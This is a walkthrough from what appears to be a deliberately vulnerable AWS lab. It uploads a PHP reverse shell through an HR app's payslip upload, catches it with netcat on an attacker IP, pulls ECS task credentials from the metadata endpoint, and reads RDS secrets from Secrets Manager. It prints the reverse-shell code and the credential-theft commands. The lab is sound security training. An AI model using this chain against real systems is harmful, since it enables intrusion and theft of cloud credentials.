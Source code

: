 # Objectives

Obtain a shell on the application and get AWS Credentials

# Solution

* Here we are trying to connect to the target system (on which our web application is running) and redirect the input and output streams from the target system to an attacker controller machine so we as an attacker can access it remotely.

* **Reverse shells** allow attackers to connect to a port on the attacker machine from the target machine and execute commands remotely.
* Since we know that our application is based on **PHP**, we will be using a **PHP Reverse Shell** 

## PHP Reverse Shell

Note: The rest of the exploitation requires access to an instance with a public IP address. Please deploy an EC2 instance with public IP address if required.  

* Here, we have our attacker machine with `3.90.178.96` as its public `ip`, listening on `port 45678`.

    ```console
    nc -nlvp 45678
    ```

    ![](./images/02/02/01.png)

* Now, we'll use a php reverse shell script [php-reverse-shell.php](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php).  

* In the script change the `ip` and `port` from the default values to the our attacker controlled machines public ip address and exposed port, in this case port 45678.
    
    ![](./images/02/02.png)

    ![](./images/02/03.png)

* Now let's try to upload this **Reverse Shell**.

## Uploading Reverse Shell

* We know that we can upload files from 4 different locations.

* Let's try uploading it from **Normal User > Reimbursements Page**

    ![](./images/02/04.png)

* The Upload fails, throwing an **Unsupported File Type** error. This usually happens when there is a backend restriction on the uploaded file extension. Let's check if the same applies to other users.
    
    ![](./images/02/05.png)

* By exploring carefully, we can say that the user can access his/her payslips uploaded by the manager. Let's try uploading our **Reverse Shell** from  **Manager > Payslips** page.
    
    ![](./images/02/06.png)

* The Upload is Successful! Let's check that on the User Page.

* As we can see, there is a new upload in the **User > Payslips Page**. Now let's click on the **View File** button and see if it triggers our reverse shell code.
    
    ![](./images/02/07.png)

* Great! We have a reverse shell access on the applications host environment! Now let's explore and see if we could get anything useful.

    ![](./images/02/08.png)

## Recon

* Let's start by printing out the **Environment Variables**
    ```console
    printenv
    ````

* We can ascertain a lot of information from the environment variables. From the ``AWS_CONTAINER_CREDENTIALS_RELATIVE_URI``, it is evident that we have a shell inside a container. From the ``AWS_EXECUTION_ENV``, it is evident we are in an ECS container that is running on an EC2 instance host. Also from the ``RDS_ENDPOINT`` we can assume the application is using the **RDS** service.
    
    ![](./images/02/09.png)


* Now, run the below command to get the ECS container's metadata.

    ```console
    curl http://172.17.0.1:51678/v1/metadata
    ```

    ![](./images/02/10.png)

* On examining the output, we can find that the target application is running on a **Container Instance**. From the ``ContainerInstanceArn`` we have found the aws accounts' information where the HR application is deployed.

* Containers in AWS Elastic Container Service (ECS) are run using ``tasks`` and tasks have a role assigned to them that is passed on to the ECS Containers. Since we've already established that the application is running on an ECS container, let's try to get it's **AWS Role** Credentials by running the below command.

    ```console
    curl 169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI
    ```

* Voila! We obtained **Container Credentials**.

    ![](./images/02/11.png)

* Now set these credentials into the environment variables with the below-mentioned commands.

    Commands:

    ```console
    export AWS_ACCESS_KEY_ID=<value>
    export AWS_SECRET_ACCESS_KEY=<value>
    export AWS_SESSION_TOKEN=<value>
    ```

    ![](./images/02/12.png)

* We successfully obtained the **AWS Containers' Credentials**! Explore Further to obtain some more information.

# What's happening?

* When the user tries to open his/her payslip which in our case is the **PHP Reverse shell** uploaded by the manager, the PHP file executes in background on the target system and creates a socket with an IPv4 address which communicates over TCP.

    ```php
    $sock = fsockopen($ip, $port, $errno, $errstr, 30);
    ```

* This gives us the access to the target system's shell, since we are listening actively on the `port` mentioned in the **PHP Reverse Shell**
    ```php
    $ip = '3.90.178.96';
    $port = 45678;
    ```
    ```console
    $ nc -nvlp 45678
    ```

* From here, we are into the target system and can obtain sensitive information!

# Further Exploration

* We now know that the application's DBMS is running on **RDS**, Let's try to get those credentials stored on the container.

* Run the below command
    ```console
    $ aws sts get-caller-identity
    ```

* We can see that we are assuming `ecs-task-role`

    ![](./images/02/13.png)

* Let's try to list the `iam role-policies`

    ```console
    $ aws iam list-role-policies --role-name ecs-task-role
    ```

* It doesn't look like we have IAM list/read access.

    ![](./images/02/14.png)

* AWS **Secrets Manager** is widely used by developers to store secrets. The **RDS** credentials might be stored as a **Secrets Manager** secret. Let's try to list out the secrets in the **Secrets Manager**.

    ```console
    $ aws secretsmanager list-secrets
    ```
    ![](./images/02/15.png)

* By running the above command, we can see that there is indeed a secret named **RDS_CREDS**. Let's view the secret by running the command below:

    ```console
    aws secretsmanager get-secret-value \
    --secret-id RDS_CREDS
    ```
    ![](./images/02/16.png)

* Great! We obtained the **RDS Credentials** stored in the **Secrets Manager**.

# Key Findings

* The Normal User page has **upload file type restriction** in the backend

* There is no **file type restriction** on Manager's page.

* We can upload our **Reverse Shell** via the **Manager > Payslips Page** and access the file on **Normal User > Payslips Page**.

* The target system is a **Container Instance**.

* We can obtain **AWS Container Credentials**.

* The backend database runs on **RDS** .

* **RDS Credentials** are stored in the **Secrets Manager**.
